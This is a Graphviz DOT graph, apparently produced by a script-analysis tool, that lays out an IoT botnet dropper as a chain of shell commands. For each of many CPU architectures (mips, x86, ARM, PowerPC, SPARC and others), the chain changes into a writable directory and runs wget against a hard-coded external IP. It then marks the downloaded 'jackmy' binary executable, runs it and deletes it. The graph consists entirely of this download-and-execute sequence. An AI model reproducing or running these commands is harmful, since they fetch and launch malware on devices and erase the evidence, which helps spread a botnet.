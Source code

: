 digraph {
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 10 [label="||,"];
10 [label="wget http://185.142.236.238/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 28 [label="||,"];
28 [label="wget http://185.142.236.238/jackmymips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymips64 "];
30 -> 32 [label=";,"];
32 [label="./jackmymips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymips64 "];
34 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 46 [label="||,"];
46 [label="wget http://185.142.236.238/jackmymipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmymipsel "];
48 -> 50 [label=";,"];
50 [label="./jackmymipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmymipsel "];
52 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 64 [label="||,"];
64 [label="wget http://185.142.236.238/jackmysh2eb "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmysh2eb "];
66 -> 68 [label=";,"];
68 [label="./jackmysh2eb "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmysh2eb "];
70 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 82 [label="||,"];
82 [label="wget http://185.142.236.238/jackmysh2elf "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmysh2elf "];
84 -> 86 [label=";,"];
86 [label="./jackmysh2elf "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmysh2elf "];
88 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 100 [label="||,"];
100 [label="wget http://185.142.236.238/jackmysh4 "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmysh4 "];
102 -> 104 [label=";,"];
104 [label="./jackmysh4 "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmysh4 "];
106 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 118 [label="||,"];
118 [label="wget http://185.142.236.238/jackmyx86 "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmyx86 "];
120 -> 122 [label=";,"];
122 [label="./jackmyx86 "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmyx86 "];
124 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 136 [label="||,"];
136 [label="wget http://185.142.236.238/jackmyi486 "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmyi486 "];
138 -> 140 [label=";,"];
140 [label="./jackmyi486 "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmyi486 "];
142 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 154 [label="||,"];
154 [label="wget http://185.142.236.238/jackmyi586 "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmyi586 "];
156 -> 158 [label=";,"];
158 [label="./jackmyi586 "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmyi586 "];
160 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 172 [label="||,"];
172 [label="wget http://185.142.236.238/jackmyi686 "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmyi686 "];
174 -> 176 [label=";,"];
176 [label="./jackmyi686 "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmyi686 "];
178 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 190 [label="||,"];
190 [label="wget http://185.142.236.238/jackmypowerpc "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmypowerpc "];
192 -> 194 [label=";,"];
194 [label="./jackmypowerpc "];
194 -> 196 [label=";,"];
196 [label="rm -rf jackmypowerpc "];
196 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 208 [label="||,"];
208 [label="wget http://185.142.236.238/jackmypowerpc440fp "];
208 -> 210 [label=";,"];
210 [label="chmod +x jackmypowerpc440fp "];
210 -> 212 [label=";,"];
212 [label="./jackmypowerpc440fp "];
212 -> 214 [label=";,"];
214 [label="rm -rf jackmypowerpc440fp "];
214 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 226 [label="||,"];
226 [label="wget http://185.142.236.238/jackmym86k "];
226 -> 228 [label=";,"];
228 [label="chmod +x jackmym86k "];
228 -> 230 [label=";,"];
230 [label="./jackmym86k "];
230 -> 232 [label=";,"];
232 [label="rm -rf jackmym86k "];
232 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 244 [label="||,"];
244 [label="wget http://185.142.236.238/jackmysparc "];
244 -> 246 [label=";,"];
246 [label="chmod +x jackmysparc "];
246 -> 248 [label=";,"];
248 [label="./jackmysparc "];
248 -> 250 [label=";,"];
250 [label="rm -rf jackmysparc "];
250 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 262 [label="||,"];
262 [label="wget http://185.142.236.238/jackmyarmv4 "];
262 -> 264 [label=";,"];
264 [label="chmod +x jackmyarmv4 "];
264 -> 266 [label=";,"];
266 [label="./jackmyarmv4 "];
266 -> 268 [label=";,"];
268 [label="rm -rf jackmyarmv4 "];
268 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 280 [label="||,"];
280 [label="wget http://185.142.236.238/jackmyarmv4tl "];
280 -> 282 [label=";,"];
282 [label="chmod +x jackmyarmv4tl "];
282 -> 284 [label=";,"];
284 [label="./jackmyarmv4tl "];
284 -> 286 [label=";,"];
286 [label="rm -rf jackmyarmv4tl "];
286 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 298 [label="||,"];
298 [label="wget http://185.142.236.238/jackmyarmv5 "];
298 -> 300 [label=";,"];
300 [label="chmod +x jackmyarmv5 "];
300 -> 302 [label=";,"];
302 [label="./jackmyarmv5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf jackmyarmv5 "];
304 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 316 [label="||,"];
316 [label="wget http://185.142.236.238/jackmyarmv6 "];
316 -> 318 [label=";,"];
318 [label="chmod +x jackmyarmv6 "];
318 -> 320 [label=";,"];
320 [label="./jackmyarmv6 "];
320 -> 321 [label=";,"];
}
